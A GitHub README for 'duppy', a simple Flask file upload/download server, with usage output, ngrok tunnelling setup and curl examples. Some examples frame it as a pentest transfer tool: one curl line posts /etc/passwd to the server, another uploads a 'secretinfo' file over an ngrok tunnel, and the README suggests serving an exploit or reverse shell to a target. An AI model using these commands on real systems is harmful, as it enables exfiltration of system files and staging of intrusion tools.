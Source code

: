 # duppy
Download/Upload Python App - duppy

Simple Flask App to Upload Files

Perfect for spinning up if needing to transfer files over via the command line or browser.
```python
python Uploader.py -h
usage: Uploader.py [-h] [-P PORT] [-H HOST] [--upload-folder UPLOAD_FOLDER]

Simple Flask File Uploader

options:
  -h, --help            show this help message and exit
  -P PORT, --port PORT  Port Number to listen On - Default 5000
  -H HOST, --host HOST  Interface to listen on - Default all
  --upload-folder UPLOAD_FOLDER
                        Upload file path - Default 'cwd'
```

Spins up a Flask App
```python
python Uploader.py -H 192.168.0.29 -P 8000 --upload-folder C:\Users\gd\Downloads
 * Serving Flask app 'Uploader'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://192.168.0.29:8000
Press CTRL+C to quit
192.168.0.29 - - [08/Feb/2024 20:48:14] "POST / HTTP/1.1" 302 -
192.168.0.29 - - [08/Feb/2024 20:48:14] "POST /done HTTP/1.1" 200 -
```

## In Browser
Can Upload and also Download Files to the Target if needed

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/30baa38a-1a2b-4d4d-a8cc-5909cbcbca1d)


## Command Line
```bash
curl -L -s -X POST -F "file=@/etc/passwd" http://192.168.0.29:8000
File uploaded!
```
## ngrok Setup if accessing over the Internet

To simplify transferring over the internet to/from the local machine an ngrok free account covers all bases.
```
python Uploader.py -H 127.0.0.1 -P 5000 --upload-folder C:\Uploader\Files

.\ngrok.exe http 5000 --basic-auth="gd:SuperPassword"
```

![ngrok](https://github.com/deeexcee-io/Uploader/assets/130473605/269b7883-4615-469a-b958-5b15cdc0d668)

Enter Creds and you're good

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/ebd9e686-6cbc-469d-a187-3b3bec50573e)

List is Dynamically Updated to show current files

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/5b157912-b0ae-48e8-8006-84c2f476f437)


![image](https://github.com/deeexcee-io/Uploader/assets/130473605/8ff1ffe1-c314-4781-a520-53ea4917ceee)

### Command Line

Pass the basic auth creds with cURL
```
curl -u "gd:SuperPassword" -L -s -X POST -F "file=@secretinfo.txt" https://854d-11-11-11-11.ngrok-free.app
```

All FIles in the Current Directory are also Served and can be Downloaded if needed. For example transferring over an exploit/reverse shell

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/ab51663d-fb7a-43a1-a99f-ac444fc71f27)





